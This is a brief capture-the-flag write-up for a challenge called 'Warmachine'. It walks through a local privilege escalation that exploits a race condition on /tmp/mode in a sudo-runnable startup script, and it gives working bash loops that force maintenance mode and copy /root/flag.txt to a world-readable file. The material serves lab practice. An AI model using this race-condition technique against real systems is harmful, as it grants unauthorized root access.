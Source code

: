 ## Warmachine

By running sudo -l we can see there is a startup file we can run as sudo.

We need to exploit a race condition that will let us go into maintenance mode by writing `MAINTENANCE` into the `/tmp/mode` file after the script writes `COMBAT` in it at the beginning of its execution but before it gets read. The difference from mechcore is that when we lose the race the script will invoke `killenemies` and kill our ssh connection. Sadly we do have to run the script once so that the `/tmp/mode` is created with the correct ownership and permissions.

Let's overwrite it:

```bash
nohup bash -c "while true; do echo MAINTENANCE > /tmp/mode; done" > /dev/null &
echo 'while true; do if [ -s /tmp/flag.txt ]; then exit; fi; echo "cat /root/flag.txt > /tmp/flag.txt; chmod 666 /tmp/flag.txt" | sudo /usr/bin/python3 /home/warmachine/startup.py; done' > /tmp/privesc.sh
chmod +x /tmp/privesc.sh
nohup /tmp/privesc.sh > /dev/null &
```

it will try to leverage the race condition to copy the flag to the `/tmp` folder.
Then we can just run this command:

```bash
cat /tmp/flag.txt
```